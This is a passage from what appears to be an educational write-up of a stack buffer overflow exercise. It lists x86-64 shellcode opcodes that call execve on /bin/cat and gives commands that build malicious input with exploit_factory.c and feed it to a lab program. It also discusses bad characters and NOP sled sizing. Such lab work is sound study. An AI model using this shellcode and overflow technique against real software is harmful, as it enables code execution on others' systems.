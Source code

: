 | add rcx, 0x10 | 48 83 c1 10 | ... |
| push rcx | 51 | Pointer to "/bin/cat" on stack |
| mov rdx, rsp | 48 89 e2 | ... |
| add rdx, 0x10 | 48 83 c2 10 | Pointer to array containing only NULL |
| mov rsi, rsp | 48 89 e6 | Argument preparation - pointer to array of arguments (args) |
| mov rdi, [rsp] | 48 8b 3c 24 | Argument preparation - pointer to "/bin/cat" |
| add rax, 0x3b | 48 83 c0 3b | Function execve() |
| syscall | 0f 05 | System call |
 
The instruction first prepares the necessary variables on the stack, then fills the rdx, rsi, rdi registers with them. The rax register is loaded with 0x3b as ``execve()`` and syscall is called.

In devising these instructions, I had to deliberately avoid problem characters.

To build the exploit there is a program **exploit_factory.c** which is compiled as follows. (Individual constants like return address are set directly in the file **exploit_factiory.c**)

```shell
gcc -Wall -pedantic exploit_factory.c -o exploit_factory.out
```

This, when run, creates the malicious input and saves it in the **input.bin** file (also an attached file)

I check in the EDB debugger that the instructions actually worked as I intended:
``shell
edb --run ./main_bigger.out $(./exploit_factory.out > info.log; cat input.bin)
```

And after running the program itself, the cat program does indeed output the contents of the file.txt file:
```shell
./main_bigger.out $(./exploit_factory.out > info.log; cat input.bin)
```

From my previous experiments, it appears that a fairly large buffer is needed for this attack. First, to accommodate all the instructions and variables needed, but also to make the NOP sequence long enough. I tried a variant with a 256 byte buffer, but there the program ended on Bus Error. 

Also, if all the addresses in the NOP sequence contain the problem character not at the end, the attack would also be infeasible this way.